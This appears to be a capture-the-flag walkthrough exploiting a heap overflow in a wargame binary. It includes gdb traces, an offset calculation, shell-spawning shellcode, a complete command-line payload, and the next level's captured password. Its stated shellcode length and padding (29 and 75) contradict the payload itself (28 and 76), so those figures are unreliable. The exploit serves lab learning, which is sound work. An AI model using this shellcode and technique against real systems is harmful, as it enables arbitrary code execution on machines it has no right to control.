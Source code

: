 # Level 09 Walkthrough

## Binary analysis

The binary uses function pointers and user-controlled data, making it vulnerable to a buffer overflow. By overflowing a buffer, we can inject shellcode and overwrite a function pointer to execute arbitrary code.

### Key decompiled code

The program allocates memory and uses user input to set up function pointers and buffers. Eventually, it calls a function pointer that can be overwritten via a buffer overflow.
Example vulnerable code:
```c
char buffer[...];
// ...
strcpy(buffer, user_input); // vulnerable
// ...
call function_pointer; // can be overwritten
```

When given a big input, we can see a segfaults happening here:
```
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) p/x $eip
$1 = 0x8048682
(gdb) disass
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
=> 0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

On those lines, eax is dereferenced twice and moved to edx, which is later called as a function pointer.

## Exploitation

Let's get the address of our buffer, we know it's the return value of setAnnotation call.

```
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ
Starting program: /home/user/level9/level9 ABCDEFGHIJKLMNOPQRSTUVWXYZ

Breakpoint 1, 0x0804867c in main ()
(gdb) x/s $eax
0x804a00c:	 "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
```

We find the offset to be 108 bytes.
```
(gdb) b *0x08048680
Breakpoint 1 at 0x8048680
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A

Breakpoint 1, 0x08048680 in main ()
(gdb) x/s $eax
0x804a078:	 "Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A"
```

We craft a payload so that there is one address to jump to in the buffer then to jump to the shellcode.
```
0x804a00c + 4 = 0x804a010
```

The padding is 108 - 4 (the address to jump to the shellcode) - 29 (length of the shellcode) = 75
```
payload = b"\x08\x04\xa0\x10"[::-1] + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + b"A"*76 + b"\x08\x04\xa0\x0c"[::-1]
```

## Commands used

```
./level9 $(python -c 'print(b"\x08\x04\xa0\x10"[::-1] + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + b"A"*76 + b"\x08\x04\xa0\x0c"[::-1])')
cat /home/user/bonus0/.pass
```

## Result

After running the exploit, we get the password for bonus0:

```
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```